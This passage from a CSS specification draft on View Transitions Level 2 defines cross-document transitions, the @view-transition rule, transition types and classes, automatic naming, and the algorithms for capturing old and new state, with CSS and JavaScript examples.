  6. The navigation proceeds: the old `Document` is unloaded, and the new `Document` is now active.
2. Then, in the new `Document`:

  1. When the new `Document` is ready for its first rendering opportunity, an event named `pagereveal` is fired on the new `Document`, with a `viewTransition` attribute.
  2. This `ViewTransition`’s `updateCallbackDone` promise is already resolved, and its captured elements are populated from the old `Document`.
  3. This is another opportunity for the author to customize the transition, e.g. by mutating its `types`, or `skip` it altogether.
  4. The state of the new document is captured as the "new" state of the transition.
  5. From this point forward, the transition continues in a similar fashion to a same-document transition, as per activate view transition.

#### 8.2. Examples {#css-view-transitions-2:cross-doc-examples}

> **Example:** To generate the same cross-fade as in the first example [CSS View Transitions 1 § 1.6 Examples](#css-view-transitions-2:examples), but across documents, we don’t need JavaScript.
>
> Instead, we opt in to triggering view-transitions on navigation in both page 1 and page 2:
>
> ```css
> // in both documents:
> @view-transition {
>   navigation: auto;
> }
> ```
>
> A link from page 1 to or from page 2 would generate a crossfade transition for example 1. To achieve the effect examples 2, 3 & 4, simply put the CSS for the pseudo-elements in both documents.

> **Example:** Note that the `@view-transition` rule can be used together with media queries. For example, this would only perform the transition when the screen width is greater than:
>
> ```css
> @view-transition {
>   navigation: auto;
> }
>
> @media (max-width: 600px) {
>   navigation: none;
> }
> ```

> **Example:** To achieve the effect in [example 5](#css-view-transitions-2:examples), we have to do several things:
>
> - Opt-in to navigation-triggered view-transitions in both pages.
> - Pass the click location to the new document, e.g. via `sessionStorage`.
> - Intercept the `ViewTransition` object in the new document, using the `pagereveal` event.
>
> In both pages:
>
> ```css
> @view-transition {
>   navigation: auto;
> }
> ```
>
> In the old page:
>
> ```js
> addEventListener('click', event => {
>   sessionStorage.setItem("lastClickX", event.clientX);
>   sessionStorage.setItem("lastClickY", event.clientY);
> });
> ```
>
> In the new page:
>
> ```js
> // This would run both on initial load and on reactivation from BFCache.
> addEventListener("pagereveal", async event => {
>   if (!event.viewTransition)
>     return;
>
>   const x = sessionStorage.getItem("lastClickX") ?? innerWidth / 2;
>   const y = sessionStorage.getItem("lastClickY") ?? innerHeight / 2;
>
>   const endRadius = Math.hypot(
>     Math.max(x, innerWidth - x),
>     Math.max(y, innerHeight - y)
>   );
>
>   await event.viewTransition.ready;
>
>   // Animate the new document's view
>   document.documentElement.animate(
>     {
>       clipPath: [
>         `circle(0 at ${x}px ${y}px)`,
>         `circle(${endRadius}px at ${x}px ${y}px)`,
>       ],
>     },
>     {
>       duration: 500,
>       easing: 'ease-in',
>       pseudoElement: '::view-transition-new(root)'
>     }
>   );
> })
> ```

> **Example:** To choose which elements are captured based on properties of the navigation, and whether certain images are loaded:
>
> In the old page:
>
> ```js
> window.addEventListener("pageswap", event => {
>   // For example, the page was hidden, or the navigation is cross-document.
>   if (!event.viewTransition)
>     return;
>
>   // If you don't want view transition for back/forward navigations...
>   if (event.activation.navigationType === "traverse") {
>     event.viewTransition.skipTransition();
>   }
>
>   const newURL = new URL(event.activation.entry.url);
>   if (newURL.pathname === "/details" && thumbnail.complete) {
>     thumbnail.classList.add("transition-to-hero");
>
>     // This will cleanup the state if the page is restored from BFCache.
>     event.viewTransition.finished.then(() => {
>       thumbnail.classList.remove("transition-to-hero");
>     });
>   }
>
> });
> ```
>
> In the new page:
>
> ```js
> window.addEventListener("pagereveal", event => {
>   // For example, the page was hidden, the navigation is cross-document, or the transition was skipped in the old document.
>   if (!event.viewTransition)
>     return;
>
>   const oldURL = new URL(navigation.activation.from.url);
>   if (newURL.pathname === "/list") {
>     event.viewTransition.types.add("coming-from-list");
>
>     // This will show the thumbnail until the view transition is finished.
>     if (!hero.complete) {
>       setToThumbnail(hero);
>       event.viewTransition.finished.then(() => {
>         setToFullResolution(hero);
>       })
>     }
>   }
> });
> ```

#### 8.3. Opting in to cross-document view transitions {#css-view-transitions-2:cross-doc-opt-in}

##### 8.3.1. The **`@view-transition`** rule {#css-view-transitions-2:view-transition-rule}

The `@view-transition` rule is used by a document to indicate that cross-document navigations should setup and activate a `ViewTransition`.

The `@view-transition` rule has the following syntax:

```css
@view-transition {
  <declaration-list>
}
```

The `@view-transition` rule accepts the navigation and types descriptors.

> **Note:** as per default behavior, the `@view-transition` rule can be nested inside a conditional group rule such as `@media` or `@supports`.

When the `@view-transition` rule changes for `Document` *document*, the user agent must update the opt-in state for outbound transitions given *document*.

> **Note:** this needs to be cached in the boolean because the result needs to be read in parallel, when navigating.

##### 8.3.2. The navigation descriptor {#css-view-transitions-2:view-transition-navigation-descriptor}

| Field | Value |
| --- | --- |
| Name: | **navigation** |
| For: | `@view-transition` |
| Value: | auto \| none |
| Initial: | none |

The '**navigation**' descriptor opts in to automatically starting a view transition when performing a navigation of a certain type. Must be present on both the old and new document.

****none****

: There will be no transition.

****auto****

: The transition will be enabled if the navigation is same-origin, without cross-origin redirects, and whose `NavigationType` is

  - `traverse`, or
  - `push` or `replace`, with [user navigation involvement](https://html.spec.whatwg.org/multipage/browsing-the-web.html#user-navigation-involvement) not equal to `"browser UI"`.

  > **Note:** Navigations excluded from `auto` are for example, navigating via the URL address bar or clicking a bookmark, as well as any form of user or script initiated `reload`.

This at-rule conforms with the forward-compatible parsing requirement of CSS; conformant parsers that don’t understand these rules will ignore them without error. Any descriptors that are not recognized or implemented by a given user agent, or whose value does not match the grammars given here or in a future version of this specification, must be ignored in their entirety; they do not make the `@view-transition` rule invalid.

##### 8.3.3. Accessing the `@view-transition` rule using CSSOM {#css-view-transitions-2:cssom}

The `CSSViewTransitionRule` represents a `@view-transition` rule.

```webidl
[Exposed=Window]
interface CSSViewTransitionRule : CSSRule {
  readonly attribute CSSOMString navigation;
  [SameObject] readonly attribute FrozenArray<CSSOMString> types;
};
```

The `navigation` getter step is to return the value of the corresponding `navigation` descriptor if one exists, otherwise the empty string.

The `types` getter steps is to return the value of the corresponding `types` descriptor if one exists, otherwise an empty list.

### 9. Selective view transitions {#css-view-transitions-2:selective-vt}

#### 9.1. Overview {#css-view-transitions-2:selective-vt-overview}

*This section is non-normative.*

For simple pages, with a single view transition, setting the `view-transition-name` property on participating elements should be sufficient. However, in more complex scenarios, the author might want to declare various view transitions, and only run one of them simultaneously. For example, sliding the whole page when clicking on the navigation bar, and sorting a list when one of its items is dragged.

To make sure each view transition only captures what it needs to, and different transitions don’t interfere with each other, this spec introduces the concept of active types, alongside the `:active-view-transition` and `:active-view-transition-type()` pseudo-classes.

`:active-view-transition` matches the document element when it has an active view transition, and `:active-view-transition-type()` matches the document element if the types in the selectors match the active view transition’s active types.

The `ViewTransition`’s active types are populated in one of the following ways:

1. Passed as part of the arguments to `startViewTransition(callbackOptions)`
2. Mutated at any time, using the transition’s `types`
3. Declared for a cross-document view transition, using the types descriptor.

#### 9.2. Examples {#css-view-transitions-2:active-view-transition-pseudo-examples}

> **Example:** For example, the developer might start a transition in the following manner:
>
> ```js
> document.startViewTransition({update: updateTheDOMSomehow, types: ["slide-in", "reverse"]});
> ```
>
> This will activate any of the following selectors:
>
> ```css
> :root:active-view-transition-type(slide-in) {}
> :root:active-view-transition-type(reverse) {}
> :root:active-view-transition-type(slide-in, reverse) {}
> :root:active-view-transition-type(slide-in, something-else) {}
> :root:active-view-transition {}
> ```
>
> While starting a transition without providing transition types, would only activate `:active-view-transition`:
>
> ```js
> document.startViewTransition(updateTheDOMSomehow);
> // or
> document.startViewTransition({update: updateTheDOMSomehow});
> ```
>
> ```css
> /* This would be active */
> :root { }
> :root:active-view-transition {}
>
> /* This would not be active */
> :root:active-view-transition-type(slide-in) {}
> :root:active-view-transition-type(any-type-at-all-except-star) {}
> ```

#### 9.3. Selecting based on the active view transition {#css-view-transitions-2:pseudo-classes-for-selective-vt}

##### 9.3.1. The `:active-view-transition` pseudo-class {#css-view-transitions-2:the-active-view-transition-pseudo}

The **:active-view-transition** pseudo-class applies to the root element of the document, if it has an active view transition.

The specificity of an `:active-view-transition` is one pseudo-class selector.

An `:active-view-transition` pseudo-class matches the document element when its node document has an non-null active view transition.

##### 9.3.2. The `:active-view-transition-type()` pseudo-class {#css-view-transitions-2:the-active-view-transition-type-pseudo}

The **:active-view-transition-type()** pseudo-class applies to the root element of the document, if it has a matching active view transition. It has the following syntax definition:

```css
:active-view-transition-type(<custom-ident>#)
```

The specificity of an `:active-view-transition-type()` is one pseudo-class selector.

An `:active-view-transition-type()` pseudo-class matches the document element when its node document has an non-null active view transition, whose active types contains at least one of the `<custom-ident>` arguments.

#### 9.4. Activating the transition type for cross-document view transitions {#css-view-transitions-2:types-cross-doc}

The types descriptor

| Field | Value |
| --- | --- |
| Name: | **types** |
| For: | `@view-transition` |
| Value: | none \| `<view-transition-type>`+ |
| Initial: | none |

The '**types**' descriptor sets the active types for the transition when capturing or performing the transition, equivalent to calling `startViewTransition(callbackOptions)` with that `types`.

****none****

: No transition types are set.

****`<view-transition-type>`+****

: Sets the active types for the transition to the specified custom identifiers.

where **<view-transition-type>** is any `<custom-ident>` other than `none`, and not starting with the string "-ua-".

> **Note:** the types descriptor only applies to the `Document` in which it is defined. The author is responsible for using their chosen set of types in both documents.

### 10. Sharing styles between view transition pseudo-elements {#css-view-transitions-2:shared-style-with-vt-classes}

#### 10.1. Overview {#css-view-transitions-2:shared-style-overview}

*This section is non-normative.*

When styling multiple elements in the DOM in a similar way, it is common to use the class attribute: setting a name that’s shared across multiple elements, and then using the class selector to declare the shared style.

The view transition pseudo-elements (e.g. `view-transition-group()`) are not defined in the DOM, but rather by using the `view-transition-name` property. For that purpose, the `view-transition-class`' CSS property provides view transitions with the equivalent of HTML classes. When an element with a `view-transition-name` also has a `view-transition-class` value, that class would be selectable by the pseudo-elements, as per the [examples](#css-view-transitions-2:vt-class-example).

#### 10.2. Examples {#css-view-transitions-2:vt-class-example}

> **Example:** This example creates a transition with each box participating under its own name, while applying a 1-second duration to the animation of all the boxes:
>
> ```html
> <div class="box" id="red-box"></div>
> <div class="box" id="green-box"></div>
> <div class="box" id="yellow-box"></div>
> ```
>
> ```css
> div.box {
>   view-transition-class: any-box;
>   width: 100px;
>   height: 100px;
> }
> #red-box {
>   view-transition-name: red-box;
>   background: red;
> }
> #green-box {
>   view-transition-name: green-box;
>   background: green;
> }
> #yellow-box {
>   view-transition-name: yellow-box;
>   background: yellow;
> }
>
> /* The following style would apply to all the boxes, thanks to 'view-transition-class' */
> ::view-transition-group(*.any-box) {
>   animation-duration: 1s;
> }
> ```

#### 10.3. The `view-transition-class` property {#css-view-transitions-2:view-transition-class-prop}

| Field | Value |
| --- | --- |
| Name: | **view-transition-class** |
| [Value:](#css-values-4:value-defs) | none \| `<custom-ident>`+ |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

The `view-transition-class` can be used to apply the same style rule to multiple named view transition pseudo-elements which may have a different `view-transition-name`. While `view-transition-name` is used to match between the element in the old state with its corresponding element in the new state, `view-transition-class` is used only to apply styles using the view transition pseudo-elements (`::view-transition-group()`, `::view-transition-image-pair()`, `::view-transition-old()`, `::view-transition-new()`).

Note that `view-transition-class` by itself doesn’t mark an element for capturing, it is only used as an additional way to style an element that already has a `view-transition-name`.

****none****

: No class would apply to the named view transition pseudo-elements generated for this element.

****`<custom-ident>`+****

: All of the specified `<custom-ident>` values (apart from `none`) are applied when used in named view transition pseudo-element selectors. `none` is an invalid <custom-ident> for `view-transition-class`, even when combined with another <custom-ident>.

  Each 'view transition class' is a tree-scoped name.

  > **Note:** If the same `view-transition-name` is specified for an element both in the old and new states of the transition, only the `view-transition-class` values from the new state apply. This also applies for cross-document view transitions: classes from the old document would only apply if their corresponding `view-transition-name` was not specified in the new document.

#### 10.4. Additions to named view transition pseudo-elements {#css-view-transitions-2:pseudo-element-class-additions}

The named view transition pseudo-elements (`view-transition-group()`, `view-transition-image-pair()`, `view-transition-old()`, `view-transition-new()`) are extended to support the following syntax:

```css
::view-transition-group(<pt-name-and-class-selector>)
::view-transition-image-pair(<pt-name-and-class-selector>)
::view-transition-old(<pt-name-and-class-selector>)
::view-transition-new(<pt-name-and-class-selector>)
```

where `<pt-name-selector>` works as previously defined, and `<pt-name-and-class-selector>` has the following syntax definition:

```css
<pt-name-and-class-selector> = <pt-name-selector> <pt-class-selector>? | <pt-class-selector>
<pt-class-selector> = ['.' <custom-ident>]+
```

When interpreting the above grammar, white space is forbidden:

- Between `<pt-name-selector>` and `<pt-class-selector>`
- Between any of the components of `<pt-class-selector>`.

A named view transition pseudo-element selector which has one or more `<custom-ident>` values in its `<pt-class-selector>` would only match an element if the class list value in named elements for the pseudo-element’s `view-transition-name` contains all of those values.

The specificity of a named view transition pseudo-element selector with either:

- a `<pt-name-selector>` with a `<custom-ident>`; or
- a `<pt-class-selector>` with at least one `<custom-ident>`,

is equivalent to a type selector.

The specificity of a named view transition pseudo-element selector with a `*` argument and with an empty `<pt-class-selector>` is zero.

### 11. Determining `view-transition-name` automatically {#css-view-transitions-2:auto-vt-name}

#### 11.1. Overview {#css-view-transitions-2:auto-vt-name-overview}

*This section is non-normative.*

For an element to participate in a view transition, it needs to receive a unique `view-transition-name`. This can be tedious and verbose when multiple elements are involved in the same view transition, especially in cases where many of those are same-element transitions, as in, the element has the same `view-transition-name` in the old and new state.

To make this easier, setting the `view-transition-name` to `auto` would generate a `view-transition-name` for the element, or take it from the element’s id if present.

#### 11.2. Examples {#css-view-transitions-2:auto-vt-name-example}

> **Example:** In this example, view transition is used to sort a list in an animated way:
>
> ```html
> <ul>
>   <li>Item 1</li>
>   <li>Item 2</li>
>   <li>Item 3</li>
>   <li>Item 4</li>
>   ...
> </ul>
> ```
>
> Ordinarily, each of these items would have to receive a unique `view-transition-name`:
>
> ```css
> li:nth-child(1) { view-transition-name: item1; }
> li:nth-child(2) { view-transition-name: item2; }
> li:nth-child(3) { view-transition-name: item3; }
> li:nth-child(4) { view-transition-name: item4; }
> ...
> ```
>
> With `auto` or `match-element`, this CSS would work:
>
> ```css
> li {
>   view-transition-name: auto;
>   /* or */
>   view-transition-name: match-element;
> }
> ```
>
> The `auto` and `match-element` keywords have a minor difference, where `auto` would use the element’s id as the `view-transition-name` if it exists, making it potentially work across documents, while `match-element` only matches based on element identity.

#### 11.3. Additions to `view-transition-name` {#css-view-transitions-2:additions-to-vt-name}

In addition to the existing values, the `view-transition-name` also accepts an **auto** keyword. To resolve the used value of `view-transition-name` for *element*:

1. Let *computed* be the computed value of `view-transition-name`.
2. If *computed* is `none`, return null.
3. If *computed* is a `<custom-ident>`, return *computed*.
4. Assert: *computed* is `auto` or `match-element`.
5. If *computed* is `auto`, *element* has an associated id, and *computed* is associated with the same root as *element*’s root, then return a unique string starting with "`-ua-`". Two elements with the same id must return the same string, regardless of their node document.

   > **Note:** this means that a `::part()` pseudo-element wouldn’t resolve to its matching element’s id.
6. Return a unique string starting with "`-ua-`". The string should remain consistent and unique for this element and `Document`, at least for the lifetime of *element*’s node document’s active view transition.

   > **Note:** When used in a cross-document view transition, generated `auto` values never match, resulting in separate `::view-transition-group()` pseudo-elements, one exiting and one entering.

A `view-transition-name` generated by `auto` is a tree-scoped name.

### 12. Algorithms {#css-view-transitions-2:algorithms}

#### 12.1. Data Structures {#css-view-transitions-2:concepts}

##### 12.1.1. Additions to `Document` {#css-view-transitions-2:additions-to-document}

A `Document` additionally has:

****active view transition****

: a `ViewTransition` or null. Initially null.

****rendering suppression for view transitions****

: a boolean. Initially false.

  While a `Document`’s rendering suppression for view transitions is true, all pointer hit testing must target its document element, ignoring all other elements.

  > **Note:** This does not affect pointers that are captured.

****dynamic view transition style sheet****

: a style sheet. Initially a new style sheet in the user-agent origin, ordered after the global view transition user agent style sheet.

  > **Note:** This is used to hold dynamic styles relating to transitions.

****update callback queue****

: A list, initially empty.

****inbound view transition params****

: a view transition params, or null. Initially null.

****can initiate outbound view transition****

: a boolean. Initially false.

  > **Note:** this value can be read in parallel while navigating.

##### 12.1.2. Additions to Elements {#css-view-transitions-2:elements-concept}

Elements additionally have:

****active view transition****

: a `ViewTransition` or null. Initially null.

****captured in a view transition****

: a boolean. Initially false.

> **Note:** This spec uses CSS’s definition of element, which includes pseudo-elements.

##### 12.1.3. Captured elements {#css-view-transitions-2:captured-elements}

A **captured element** is a struct with the following:

****old image****

: an 2D bitmap or null. Initially null.

****old width** **old height****

: an `unrestricted double`, initially zero.

****old transform****

: a `<transform-function>`, initially the identity transform function.

****old writing-mode****

: Null or a `writing-mode`, initially null.

****old direction****

: Null or a `direction`, initially null.

****old text-orientation****

: Null or a `text-orientation`, initially null.

****old mix-blend-mode****

: Null or a `mix-blend-mode`, initially null.

****old backdrop-filter****

: Null or a `backdrop-filter`, initially null.

****old color-scheme****

: Null or a `color-scheme`, initially null.

****new element****

: an element or null. Initially null.

****class list****

: a list of strings, initially empty.

****containing group name****

: Null or a string, initially null.

****transform from snapshot containing block****

: A matrix or null, initially null.

****old border width****

: `border-width` used value (top, right, bottom and left pixel values) or null, initially null.

****duplicate****

: A boolean, initiallly false.

In addition, a captured element has the following **style definitions**:

****group keyframes****

: A `CSSKeyframesRule` or null. Initially null.

****group animation name rule****

: A `CSSStyleRule` or null. Initially null.

****group styles rule****

: A `CSSStyleRule` or null. Initially null.

****image pair isolation rule****

: A `CSSStyleRule` or null. Initially null.

****image animation name rule****

: A `CSSStyleRule` or null. Initially null.

> **Note:** These are used to update, and later remove styles from a document’s dynamic view transition style sheet.

##### 12.1.4. Serializable view transition params {#css-view-transitions-2:cross-doc-data-structure-serialization}

A **view transition params** is a struct whose purpose is to serialize view transition information across documents. It has the following items:

****named elements****

: a map, whose keys are strings and whose values are captured elements.

****initial snapshot containing block size****

: a tuple of two numbers (width and height).

#### 12.2. Perform pending transition operations {#css-view-transitions-2:perform-pending-transition-operations-algorithm}

> **Note:** This algorithm is invoked as a part of [update the rendering loop](https://html.spec.whatwg.org/#event-loop-processing-model:perform-pending-transition-operations) in the html spec.

To **perform pending transition operations** given a `Document` *document*, perform the following steps:

1. Let *transitions* be a new list.
2. If *document*’s active view transition is not null, append *document*’s active view transition to *transitions*.
3. For each *element* in *document*’s flat tree, in tree order:

  1. If *element*’s active view transition is not null and *transitions* does not contain *element*’s active view transition, then append *element*’s active view transition to *transitions*.
4. For each *transition* of *transitions*:

  1. If *transition*’s phase is "`done`", then continue.
  2. If *transition*’s phase is "`pending-capture`", then setup view transition for *transition*.
  3. Otherwise, if *transition*’s phase is "`animating`", then handle transition frame for *transition*.

#### 12.3. Resolving the `@view-transition` rule {#css-view-transitions-2:vt-rule-algo}

To **resolve @view-transition rule** for a `Document` *document*:

> **Note:** this is called in both the old and new document.

1. If *document*’s visibility state is "`hidden`", then return "`skip transition`".
2. Let *matchingRule* be the last `@view-transition` rule in *document*.
3. If *matchingRule* is not found, then return "`skip transition`".
4. If *matchingRule*’s navigation descriptor’s computed value is `none`, then return "`skip transition`".
5. Assert: *matchingRule*’s navigation descriptor’s computed value is `auto`.
6. Let *typesDescriptor* be *matchingRule*’s types descriptor.
7. If *typesDescriptor*’s computed value is `none`, then return a set « ».
8. Return a set of strings corresponding to *typesDescriptor*’s computed value.

#### 12.4. Setup single-document view transition {#css-view-transitions-2:setup-view-transition-algorithm}

To **setup view transition** for a `ViewTransition` *transition*, perform the following steps:

> **Note:** This algorithm captures the current state of the document, calls the transition’s `ViewTransitionUpdateCallback`, then captures the new state of the document.

1. Let *document* be *transition*’s relevant global object’s associated document.
2. Flush the update callback queue.

   > **Note:** this ensures that any changes to the DOM scheduled by other skipped transitions are done before the old state for this transition is captured.
3. Capture the old state for *transition*.

   If failure is returned, then skip the view transition for *transition* with an "`InvalidStateError`" `DOMException` in *transition*’s relevant Realm, and return.
4. Set *document*’s rendering suppression for view transitions to true.
5. Queue a global task on the DOM manipulation task source, given *transition*’s relevant global object, to perform the following steps:

   > **Note:** A task is queued here because the texture read back in capturing the image may be async, although the render steps in the HTML spec act as if it’s synchronous.

  1. If *transition*’s phase is "`done`", then abort these steps.

     > **Note:** This happens if *transition* was skipped before this point.
  2. schedule the update callback for *transition*.
  3. Flush the update callback queue.

To **activate view transition** for a `ViewTransition` *transition*, perform the following steps:

1. If *transition*’s phase is "`done`", then return.

   > **Note:** This happens if *transition* was skipped before this point.
2. Set *transition*’s relevant global object’s associated document’s rendering suppression for view transitions to false.
3. If *transition*’s initial snapshot containing block size is not equal to the snapshot containing block size, then skip *transition* with an "`InvalidStateError`" `DOMException` in *transition*’s relevant Realm, and return.
4. Capture the new state for *transition*.

   If failure is returned, then skip *transition* with an "`InvalidStateError`" `DOMException` in *transition*’s relevant Realm, and return.
5. Remove from *transition*’s named elements every entry whose value’s duplicate is true.

   > **Note:** User agents are encouraged to alert the developer that the duplicate was removed, e.g. via a console warning.
6. For each *capturedElement* of *transition*’s named elements' values:

  1. If *capturedElement*’s new element is not null, then set *capturedElement*’s new element’s captured in a view transition to true.
7. Setup transition pseudo-elements for *transition*.
8. Update pseudo-element styles for *transition*.

   If failure is returned, then skip the view transition for *transition* with an "`InvalidStateError`" `DOMException` in *transition*’s relevant Realm, and return.

   > **Note:** The above steps will require running document lifecycle phases, to compute information calculated during style/layout.
9. Set *transition*’s phase to "`animating`".
10. Resolve *transition*’s ready promise.

##### 12.4.1. Capture the old state {#css-view-transitions-2:capture-old-state-algorithm}

To **capture the old state** for `ViewTransition` *transition*:

1. Let *document* be *transition*’s relevant global object’s associated document.
2. Let *namedElements* be *transition*’s named elements.
3. Let *captureElements* be a new list of elements.
4. If the snapshot containing block size exceeds an implementation-defined maximum, then return failure.
5. Set *transition*’s initial snapshot containing block size to the snapshot containing block size.
6. For each *element* of every element that is connected, and has a node document equal to *document*, in [paint order](#css2:painting-order):

   > **Note:** We iterate in paint order to ensure that this order is cached in *namedElements*. This defines the DOM order for ::view-transition-group pseudo-elements, such that the element at the bottom of the paint stack generates the first pseudo child of ::view-transition.

  1. If any flat tree ancestor of this *element* skips its contents, then continue.
  2. If any flat tree inclusive ancestor of this *element*, up to but not including *transition*’s root element, has `view-transition-scope: all`, continue.
  3. If *element* has more than one box fragment, then continue.

     > **Note:** We might want to enable transitions for fragmented elements in future versions. See [#8900](https://github.com/w3c/csswg-drafts/issues/8900).

     > **Note:** box fragment here does not refer to fragmentation of [inline boxes](#css2:inline-boxes) across [line boxes](#css2:line-box). Such inlines can participate in a transition.
  4. Let *transitionName* be the *element*’s document-scoped view transition name.
  5. If *transitionName* is `none`, or *element* is not rendered, then continue.
  6. If *namedElements*[*transitionName*] exists, then set *namedElements*[*transitionName*]'s duplicate to true and continue.
  7. If *any other* active view transition contains *element* in its captured elements, then for each such active view transition, in tree order of their corresponding root elements, skip that view transition with an "`AbortError`" `DOMException` in *document*’s relevant Realm.
  8. Set *element*’s captured in a view transition to true.
  9. Append *element* to *captureElements*.

   > **Note:** The algorithm continues in a separate loop to ensure that captured in a view transition is set on all elements participating in this capture before it is read by future steps in the algorithm.
7. For each *element* in *captureElements*:

  1. Let *capture* be a new captured element struct.
  2. Set *capture*’s old image to the result of capturing the image of *element*.
  3. Let *originalRect* be snapshot containing block if *element* is the document element, otherwise, the *element*’s border box.
  4. Set *capture*’s old width to *originalRect*’s `width`.
  5. Set *capture*’s old height to *originalRect*’s `height`.
  6. Set *capture*’s old transform to a `<transform-function>` that would map *element*’s border box from the snapshot containing block origin to its current visual position.
  7. Set *capture*’s old writing-mode to the computed value of `writing-mode` on *element*.
  8. Set *capture*’s old direction to the computed value of `direction` on *element*.
  9. Set *capture*’s old text-orientation to the computed value of `text-orientation` on *element*.
  10. Set *capture*’s old mix-blend-mode to the computed value of `mix-blend-mode` on *element*.
  11. Set *capture*’s old backdrop-filter to the computed value of `backdrop-filter` on *element*.
  12. Set *capture*’s old color-scheme to the computed value of `color-scheme` on *element*.
  13. Let *transitionName* be the computed value of `view-transition-name` for *element*.
  14. Set *namedElements*[*transitionName*] to *capture*.
8. For each *element* in *captureElements*:

  1. Set *element*’s captured in a view transition to false.

##### 12.4.2. Capture the new state {#css-view-transitions-2:capture-new-state-algorithm}

To **capture the new state** for `ViewTransition` *transition*:

1. Let *document* be *transition*’s relevant global object’s associated document.
2. Let *namedElements* be *transition*’s named elements.
3. Let *usedTransitionNames* be a new set of strings.
4. For each *element* of every element that is connected, and has a node document equal to *document*, in [paint order](#css2:painting-order):

  1. If any flat tree ancestor of this *element* skips its contents, then continue.
  2. Let *transitionName* be *element*’s document-scoped view transition name.
  3. If *transitionName* is `none`, or *element* is not rendered, then continue.
  4. If *element* has more than one box fragment, then continue.
  5. If *usedTransitionNames* contains *transitionName*, then return failure.
  6. Append *transitionName* to *usedTransitionNames*.
  7. If *namedElements*[*transitionName*] does not exist, then set *namedElements*[*transitionName*] to a new captured element struct.

     > **Note:** We intentionally add this struct to the end of this ordered map. This implies than names which only exist in the new DOM (entry animations) will be painted on top of names only in the old DOM (exit animations) and names in both DOMs (paired animations). This might not be the right layering for all cases. See [issue 8941](https://github.com/w3c/csswg-drafts/issues/8941).
  8. If *namedElements*[*transitionName*]'s new element is not null, then set *namedElements*[*transitionName*]'s duplicate to true.
  9. Set *namedElements*[*transitionName*]'s new element to *element*.

##### 12.4.3. Setup transition pseudo-elements {#css-view-transitions-2:setup-transition-pseudo-elements-algorithm}

To **setup transition pseudo-elements** for a `ViewTransition` *transition*:

> **Note:** This algorithm constructs the pseudo-element tree for the transition, and generates initial styles. The structure of the pseudo-tree is covered at a higher level in [§ 5.2 View Transition Pseudo-elements](#css-view-transitions-2:view-transition-pseudos).

1. Let *document* be *transition*’s relevant global object’s associated document.
2. For each *transitionName* → *capturedElement* of *transition*’s named elements:

  1. Let *group* be a new `::view-transition-group()`, with its view transition name set to *transitionName*.
  2. Append *group* to the `::view-transition` pseudo-element on *transition*’s root element.
  3. Let *imagePair* be a new `::view-transition-image-pair()`, with its view transition name set to *transitionName*.
  4. Append *imagePair* to *group*.
  5. If *capturedElement*’s old image is not null, then:

    1. Let *old* be a new `::view-transition-old()`, with its view transition name set to *transitionName*, displaying *capturedElement*’s old image as its replaced content.
    2. Append *old* to *imagePair*.
  6. If *capturedElement*’s new element is not null, then:

    1. Let *new* be a new `::view-transition-new()`, with its view transition name set to *transitionName*.

       > **Note:** The styling of this pseudo is handled in update pseudo-element styles.
    2. Append *new* to *imagePair*.
  7. If *capturedElement*’s old image is null, then:

    1. Assert: *capturedElement*’s new element is not null.
    2. Set *capturedElement*’s image animation name rule to a new `CSSStyleRule` representing the following CSS, and append it to *document*’s dynamic view transition style sheet:

       ```
       :root::view-transition-new(transitionName) {
  animation-name: -ua-view-transition-fade-in;
       }
       ```

       > **Note:** The above code example contains variables to be replaced.
  8. If *capturedElement*’s new element is null, then:

    1. Assert: *capturedElement*’s old image is not null.
    2. Set *capturedElement*’s image animation name rule to a new `CSSStyleRule` representing the following CSS, and append it to *document*’s dynamic view transition style sheet:

       ```
       :root::view-transition-old(transitionName) {
  animation-name: -ua-view-transition-fade-out;
       }
       ```

       > **Note:** The above code example contains variables to be replaced.
  9. If both of *capturedElement*’s old image and new element are not null, then:

    1. Let *transform* be *capturedElement*’s old transform.
    2. Let *width* be *capturedElement*’s old width.
    3. Let *height* be *capturedElement*’s old height.
    4. Let *backdropFilter* be *capturedElement*’s old backdrop-filter.
    5. Set *capturedElement*’s group keyframes to a new `CSSKeyframesRule` representing the following CSS, and append it to *document*’s dynamic view transition style sheet:

       ```
       @keyframes -ua-view-transition-group-anim-transitionName {
  from {
    transform: transform;
    width: width;
    height: height;
    backdrop-filter: backdropFilter;
  }
       }
       ```

       > **Note:** The above code example contains variables to be replaced.
    6. Set *capturedElement*’s group animation name rule to a new `CSSStyleRule` representing the following CSS, and append it to *document*’s dynamic view transition style sheet:

       ```
       :root::view-transition-group(transitionName) {
  animation-name: -ua-view-transition-group-anim-transitionName;
       }
       ```

       > **Note:** The above code example contains variables to be replaced.
    7. Set *capturedElement*’s image pair isolation rule to a new `CSSStyleRule` representing the following CSS, and append it to *document*’s dynamic view transition style sheet:

       ```
       :root::view-transition-image-pair(transitionName) {
  isolation: isolate;
       }
       ```

       > **Note:** The above code example contains variables to be replaced.
    8. Set *capturedElement*’s image animation name rule to a new `CSSStyleRule` representing the following CSS, and append it to *document*’s dynamic view transition style sheet:

       ```
       :root::view-transition-old(transitionName) {
  animation-name: -ua-view-transition-fade-out, -ua-mix-blend-mode-plus-lighter;
       }
       :root::view-transition-new(transitionName) {
  animation-name: -ua-view-transition-fade-in, -ua-mix-blend-mode-plus-lighter;
       }
       ```

       > **Note:** The above code example contains variables to be replaced.

       > **Note:** `mix-blend-mode: plus-lighter` ensures that the blending of identical pixels from the old and new images results in the same color value as those pixels, and achieves a “correct” cross-fade.

#### 12.5. Setup cross-document view transition {#css-view-transitions-2:setup-crossdoc-view-transition-algo}

##### 12.5.1. Setting up the view transition in the old `Document` {#css-view-transitions-2:setup-old-document-vt}

###### 12.5.1.1. Check eligibility for outbound cross-document view transition {#css-view-transitions-2:check-eligibility}

To check if a **navigation can trigger a cross-document view-transition?** given a `Document` *oldDocument*, a `Document` *newDocument*, a `NavigationType` *navigationType*, and a boolean *isBrowserUINavigation*:

> **Note:** this is called during navigation, potentially in parallel.

1. If the user agent decides to display an implementation-defined navigation experience, e.g. a gesture-based transition for a back navigation, the user agent may ignore the author-defined view transition. If that is the case, return false.
2. If *oldDocument*’s can initiate outbound view transition is false, then return false.
3. If *navigationType* is `reload`, then return false.
4. If *oldDocument*’s origin is not same origin as *newDocument*’s origin, then return false.
